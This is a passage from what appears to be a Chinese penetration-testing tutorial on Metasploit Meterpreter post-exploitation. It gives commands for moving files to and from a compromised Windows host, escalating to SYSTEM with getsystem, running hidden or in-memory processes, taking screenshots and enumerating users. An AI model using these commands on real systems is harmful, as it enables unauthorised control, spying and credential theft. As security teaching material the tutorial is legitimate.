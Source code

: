 #### 上传 / 下载文件

##### 下载文件
~~~bash
download  file #命令可以帮助我们从目标系统中下载文件
~~~

##### 上传文件
~~~bash
upload  file  #命令则能够向目标系统上传文件。
~~~

#### 权限提升
有的时候，你可能会发现自己的 `Meterpreter` 会话受到了用户权限的限制，而这将会严重影响你在目标系统中的活动
比如说，`修改注册表`、`安装后门`或`导出密码`等活动都需要`提升用户权限`
而 `Meterpreter` 给我们提供了一个 `getsystem` 命令
它可以使用多种技术在目标系统中实现提权

~~~bash
getuid
#命令可以获取当前用户的信息，可以看到，当我们使用 getsystem进行提权后，用户身材为  NT AUTHORITY\SYSTEM ，这个也就是Windows的系统权限。
getsystem
#自动提权为系统权限
~~~

#### 获取用户密码
[使用 MSF 抓取用户密码](../b034a3f3/)

#### 运行程序
先查看目标主机安装了哪些应用
~~~bash
run post/windows/gather/enum_applications  #查看目标主机安装了哪些应用
~~~

在 `meterpreter_shell` 命令行执行目标系统中的应用程序
~~~bash
#execute命令用法：
execute [参数] -f 指定的可执行文件

-f：指定可执行文件
-H：创建一个隐藏进程
-a：传递给命令的参数
-i：跟进程进行交互
-m：从内存中执行
-t：使用当前伪造的线程令牌运行进程
-s：在给定会话中执行进程
~~~

#### 屏幕截图
截图目标主机屏幕，图片保存到 `/root/Desktop/` 下
~~~bash
screenshot #截图目标主机屏幕
~~~

#### 创建一个新账号
先查看目标主机有哪些用户
~~~bash
run post/windows/gather/enum_logged_on_users  #查看目标主机有用户
~~~
